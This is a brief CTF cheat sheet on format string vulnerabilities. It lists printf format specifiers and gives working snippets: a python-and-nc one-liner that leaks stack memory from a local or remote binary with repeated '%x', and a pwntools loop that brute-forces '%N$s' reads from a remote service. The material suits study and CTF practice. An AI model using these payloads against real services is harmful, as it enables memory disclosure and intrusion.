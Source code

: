 # String Format Vulnerability 
String format vulnerability is a type of vulnerability that occurs when a program uses user input to format a string. This can be used to execute arbitrary code. This is a very common vulnerability and is often used in CTFs.

They are usually caused by the use of the `printf` or `scanf` functions.

The format specifiers are the following:

| Format Specifier | Description |
|---|---|
| %c | Character |
| %d | Signed decimal integer |
| %e | Scientific notation |
| %f | Decimal floating point |
| %g | Use the shortest representation: %e or %f |
| %i | Signed decimal integer |
| %o | Unsigned octal |
| %s | String of characters |
| %u | Unsigned decimal integer |
| %x | Unsigned hexadecimal integer |
| %X | Unsigned hexadecimal integer (uppercase) |

## Print memory address
```bash
$ python -c "print ('%x ' * 64)" | ./<executable> # Local
$ python -c "print ('%x ' * 64)" | nc <ip> <port> # Remote
```

## Bruteforce the stack
```python
from pwn import *

for i in range(1, 100):
    r = remote('host', <port>)
    r.sendline('%' + str(i) + '$s')
    print('%' + str(i) + '$s')
    print(r.recv())
```